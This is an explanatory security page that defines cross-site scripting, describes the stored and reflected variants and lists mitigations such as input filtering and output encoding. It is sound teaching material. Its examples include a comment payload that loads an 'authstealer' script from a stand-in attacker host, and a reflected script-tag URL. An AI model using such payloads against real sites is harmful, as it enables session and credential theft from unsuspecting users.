

## XSS (Cross Site Scripting)

XSS attacks are a type of injection in which malicious scripts are injected into benign/trusted websites. Occurs when an attacker uses a vulnerable web application to send malicious code, generally in the form of browser side script, to end users. This can happen anywhere when a web application uses input within the output it generates without validating or encoding it.

Browsers have no way to know that the script should not be trusted and hence, will execute script. The malicious script can access any cookies, session tokens, or other sensitive information retained by the browser and used with that site. Allows the attacker to carry out any actions the user is able to perform.



## XSS Types

### Stored (Persistent)

Stored XSS occurs when a malicious script is injected directly into a vulnerable web application and permanently stored. Most frequent targets are websites that allow users to share content/comments/messages (blogs, videos, social networks). Each time the infected page is viewed, the malicious script is transmitted to the victim's browser.

For instance, if an e-commerce website allows users to embed HTML in the comments section, the embedded tags become a permanent feature of the page, causing the browser to parse them with the rest of the source code everytime the page is opened.

```
Great price for a great item! Read my review here <script src=”http://hackersite.com/authstealer.js”> </script>.
```

### Reflected

Reflected XSS are those where the injected script is reflected off the web server, such as in an error message, search results, or other response that includes some or all of the input sent to the server as part of the request. Attacks are delivered to victims viat another route, such as an email message or malicious link. The injected code travels to the vulnerable website, which reflects the attack back to the user's browser.

```
https://insecure-website.com/status?message=All+is+well.
<p>Status: All is well.</p>

https://insecure-website.com/status?message=<script>/*+Bad+stuff+here...+*/</script>
<p>Status: <script>/* Bad stuff here... */</script></p>
```

## Prevention/Mitigation

### Filter input on arrival

At the point where user input is received, filter as strictly as possible based on what is expected or valid input.

### Encode data on output

If user-controlled data is output in HTTP responses, encode the output to prevent it from being interpreted as active content.

### Use appropriate response headers

To prevent XSS in HTTP responses that are not intended to contain HTML/JS, can use Content-Type and X-Content-Type-Options headers to ensure browsers interpret responses correctly.
